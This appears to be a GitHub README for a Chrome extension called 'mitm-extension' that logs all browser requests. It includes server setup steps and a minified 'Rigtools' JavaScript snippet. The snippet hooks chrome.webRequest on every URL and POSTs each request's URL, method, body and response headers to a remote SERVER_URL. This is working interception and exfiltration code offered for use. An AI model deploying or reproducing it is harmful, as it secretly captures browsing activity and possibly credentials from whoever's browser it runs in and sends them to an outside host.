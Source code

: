 # mitm-extension
Log all request sent to and from your browser

## Setup
```sh
$ git clone https://github.com/entrpix/mitm-extension
```

## Extension
- Inside `mitm-extension/extension/background.js` edit:
  - `SERVER_URL` to be your server
  - `TOKEN` to be your token
- Zip the extension
- Then go to `chrome://extensions`
  - Enable developer mode
  - Load extension

## Server
```sh
$ cd mitm-extension
$ cd server
$ touch .env
$ echo "TOKEN=YOUR_TOKEN" > .env
$ (p)npm i
$ node index.js
```

## Rigtools
```js
const SERVER_URL='http://DOMAIN:PORT/create';const TOKEN='TOKEN';function logServer(log){fetch(SERVER_URL,{method: 'POST',headers: {'Content-Type': 'application/json','Authentication': TOKEN},body: JSON.stringify(log)}).catch(error=>alert(error))};chrome.webRequest.onCompleted.addListener(function(details){const logEntry={ method: details.method,date: new Date().toISOString(),url: details.url,statusCode: details.statusCode,requestId: details.requestId,requestBody: details.requestBody||{},responseHeaders: details.responseHeaders||{}};logServer(logEntry)},{ urls: ["<all_urls>"] },["responseHeaders","extraHeaders"]);
```
